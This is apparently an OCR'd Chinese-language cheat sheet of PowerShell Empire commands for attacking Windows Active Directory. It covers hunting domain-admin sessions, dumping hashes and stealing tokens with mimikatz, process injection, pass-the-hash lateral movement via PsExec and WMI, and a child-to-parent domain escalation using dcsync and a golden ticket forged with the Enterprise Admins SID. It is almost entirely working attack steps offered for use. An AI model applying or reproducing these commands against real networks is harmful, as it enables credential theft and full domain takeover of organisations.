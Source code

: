 	查询域管登录机器
	>usemodule situational_awareness/network/powerview/user_hunter
 ##### 令牌窃取
	>mimikatz
	>creds  获取并整理hash及密码
	>pth {ID}窃取管理员令牌
	>steal_token {PID}
 ##### 会话注入
	>ps 查看进程
	>usemodule management/psinject 设置ProcIP和Listener
 ##### Hash传递
	Invoke-PsExec可能会被查杀
	>usemodule situational_awareness/network/powerview/find_localadmin_access 列出可PSexec横向移动的机器
	>usemodule lateral_movement/invoke_psexec需设置ComputerName和Listener
	或
	>usemodule lateral_movement/invoke_wmi需设置ComputerName和Listener，credID
	跨域
	父域域控：dc.zone.com
	子域域控：sub.zone.com
	子域计算机：pc.sub.zone.com
	子域普通用户：sub\user1
	查看信任关系
	>usemodule situational_awareness/network/powerview/get_domain_trust
	获取父域krbtgt SID，使用management/user_to_sid获取sid
	需设置Domain和User=krbtgt
	>usemodule credentials/mimikatz/dcsync 设置UserName 子域\krbtgt 获取子域hash
	>usemodule credentials/mimikatz/golden_ticket 伪造sid 
	需设置User为伪造用户 sids伪造的标识符{krbtgt sid}-519
	>usemodule credentials/mimikatz/dcsync 获取父域krbtgt的hash
	>usemodule credentials/mimikatz/golden_ticket 使用父域krbtgt进行PTH攻击，指定父域CredID，用户名和域
	>shell dir \\dc.zone.com\c$